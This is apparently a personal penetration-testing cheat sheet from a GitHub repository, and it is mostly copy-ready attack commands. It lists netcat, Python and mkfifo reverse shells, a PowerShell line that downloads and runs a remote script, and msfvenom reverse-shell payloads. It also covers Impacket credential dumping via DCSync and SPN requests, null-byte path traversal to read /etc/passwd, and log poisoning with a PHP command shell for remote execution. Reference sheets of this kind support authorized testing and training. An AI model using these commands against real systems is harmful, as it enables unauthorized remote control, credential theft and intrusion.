 # Pen-Test Cheat Sheet
This repository contains this markdown file which includes common commands and tools used in a penetration test  
This will be a list of commands that has personally worked for me so I do not have to go back and find what and what doesn't work  
Commands will be seperated into categories  

## Reverse Shells

### Netcat Traditional
```
nc -e /bin/sh 10.10.10.10 4444
nc -e /bin/bash 10.10.10.10 4444
nc -c bash 10.10.10.10 4444
```
### Netcat OpenBSD
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 4242 >/tmp/f
```
### Python
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```
### Windows
```
powershell IEX (New-Object Net.WebClient).DownloadString('https://gist.githubusercontent.com/staaldraad/204928a6004e89553a8d3db0ce527fd5/raw/fe5f74ecfae7ec0f2d50895ecf9ab9dafe253ad4/mini-reverse.ps1')
```
Use this command in conjunction with nishang shell  
https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1

### PHP Upload
https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php  

### msfvenom commands

#### Windows
```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f exe > reverse.exe
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.0.1 LPORT=4242 -f exe > reverse.exe
```
#### Linux
```
msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.0.0.1 LPORT=4242 -f elf >reverse.elf
```
## Spawn TTY Shell
`rlwrap` enhances the shell, allowing you to clear the screen with `CTRL + L`
```
rlwrap nc 10.10.10.10 4444
```
## nmap
```
nmap -sC -sV -oA nmap/name_of_file 10.10.10.10
```
## Gobuster
```
gobuster dir -u http://10.10.10.10 -w /usr/share/wordlists/dirbuster/directory-list.2.3-medium.txt -t 50
```
## Impacket

https://github.com/SecureAuthCorp/impacket

### psexec
Used to remotely login to victim's computer
```
psexec.py domain/user:password@10.10.10.10
```
### GetUserSPNs
Script to find and fetch Service Principle Names assosicated with normal user accounts   
Hash retrieved can be cracked using John or Hashcat  
```
GetUserSPNs.py domain/user:password -dc-ip 10.10.10.10 -request
```
### secretdumps

Performs a DCSync Attack  
DCSync Attacks pretends to be a domain controller  
Targetted account must have DCSync Privileges which can be obtain if user has Exchange Windows Permission  

```
secretdumps.py domain/user:password@10.10.10.10
```

### smbclient

A generic SMB client
```
smbclient.py domain/user:password@10.10.10.10
```

### lookupsid

Tool to bruteforce Windows SIDs which will attempt to identify remote users and groups 

```
lookipsid.py domain/user:password@10.10.10.10
```
## Port Forwarding

### ssh 

```
    ssh -L port_to_host:ip_address:port_to_forward user@host.com
```
## Local File Inclusion (LFI) / Directory Traversal

### Extension Bypass using Null byte

PHP versions before 5.5 are vulnerable to null byte injection, meaning that adding a null byte at the end of the filename should bypass the extension check.  
It can bypass codes that append `.php` to the file requested

Example:

`include($_GET['language'] . ".php");`

`language=/etc/passwd%00` will result in `language=/etc/passwd`


### RCE Through Apache / Nginx Log Files

Nginx log files are readable by www-data user by default  
Apache log files are readable by root and adm users (older versions are readable by all users)  

#### Poisoning User-Agent

*Example*  

Once LFI exists in the target system, send a request to  

`http://example.com/index.php?language=/var/log/apache2/access.log`

Change the User-Agent to `<?php system($_GET['cmd']); ?>`

Inject commands via `http://example.com/index.php?language=/var/log/apache2/access.log&cmd=id`

